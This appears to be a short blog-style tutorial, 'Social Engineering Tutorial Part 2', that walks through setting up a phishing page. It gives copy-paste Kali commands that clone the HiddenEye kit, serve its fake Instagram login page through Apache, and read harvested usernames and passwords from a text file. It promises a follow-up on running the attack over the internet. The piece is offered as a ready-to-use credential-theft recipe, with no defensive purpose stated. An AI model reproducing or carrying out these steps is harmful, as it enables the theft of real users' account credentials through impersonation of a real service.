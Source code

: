 ```yaml
---
title: 'Social Engineering Tutorial | Part 2⚡'
date: '2023-06-07'
category: 'Guide'
tags: 'tutorial'
image_url: 'https://integrisit.com/wp-content/uploads/2022/12/social_engineering-01.png'
---
```


Social Engineering: Step-by-Step Guide
======================================

* * * * *

Step 1: Fire up Kali and install dependencies
---------------------------------------------

##### Copy and paste these commands in your terminal.

1.  `sudo apt update -y`
2.  `sudo apt install apache2 php git -y`
3.  `cd ~/Documents && git clone https://github.com/Morsmalleo/HiddenEye.git`
4.  `cd HiddenEye/WebPages/Instagram_web && touch usernames.txt`
5.  `sudo cp -r * /var/www/html`
6.  `sudo systemctl enable apache2 && sudo systemctl start apache2`

* * * * *

#### Step 2: Testing on localhost

Now head on to [localhost.](http://localhost/) Now login with a random username and password. Go to your terminal and type the following command to view the captured credentials: `sudo cat /var/www/html/usernames.txt`

* * * * *

##### Upcoming: Running the attack over the internet.

> Amateurs hack systems, professionals hack people 💀